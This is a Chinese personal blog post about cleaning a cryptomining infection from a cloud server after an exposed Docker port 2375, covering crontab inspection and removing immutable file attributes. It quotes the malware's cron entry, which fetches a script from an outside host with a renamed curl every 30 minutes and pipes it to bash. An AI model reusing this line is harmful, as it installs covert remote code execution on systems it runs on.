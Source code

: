 ```yaml
---
title: 记一次服务器遭到挖矿病毒感染的经历
author: 寒雨
hide: false
summary: 2375端口真不能开，开了就中招
categories: 杂谈
tags:
  - 运维
---
```


# 记一次服务器遭到挖矿病毒感染的经历

## 起因

在鼓捣docker，看了一些教程，为了方便一些操作打开了2375端口，导致被人docker注入了。

## 应对过程

其实我之前完全没有面对过服务器遭到病毒攻击的问题...最开始是腾讯云给我发短信，说我的服务器存在危险行为，并且封禁了这台服务器一天。

当时一上去我就感觉到不对了，服务器上经常莫名奇妙多一个docker镜像，删了也没用。

后面我使用`crontab -l`排查了一下定时任务，发现里面有一个奇怪的任务。

~~~sh
*/30 * * * * /usr/bin/cdz -fsSL http://oracle.zzhreceive.top/b2f628/b.sh | bash > /dev/null 2>&1
~~~

看样子这就是问题所在了，它会定时下载一个脚本文件并且执行。那么只要把它删掉不就完事大吉了？

于是我试图用`crontab -e`删掉它，最后却发现无法编辑这个配置。

> "/tmp/crontab.Awo30z" 1L, 1C written
> crontab: installing new crontab
> /var/spool/cron/#tmp.VM-16-8-centos.XXXX6iXbXz: Operation not permitted
> crontab: edits left in /tmp/crontab.Awo30z

病毒怎么可能会让你轻松的删掉这个定时任务？它修改了文件的属性，让它无法被修改——即便你拥有root的最高权限。

百度后找到了解决方案

>  查看是否有特殊的属性 lsattr /var/spool/cron/ 
>
>  去掉特殊的属性 chattr -ai /var/spool/cron/root  && lsattr /var/spool/cron/root

但是有一点很奇怪，我的腾讯云机器上无法使用chattr指令。他会询问我是否安装一个包，但真安装时却说这个包已经安装过了，不知道这是不是病毒搞得鬼。

> [root@VM-16-8-centos lighthouse]# chattr -i /var/spool/cron
> bash: chattr: command not found...
> Install package 'e2fsprogs' to provide command 'chattr'? [N/y] y  
>
>
>  * Waiting in queue... Failed to install packages: e2fsprogs-1.45.6-2.tl3.x86_64 is already installed

于是我把包给卸载重装了一次，就可以了

> yum remove e2fsprogs-1.45.6-2.tl3.x86_64

去除特殊权限后就可以编辑定时任务了。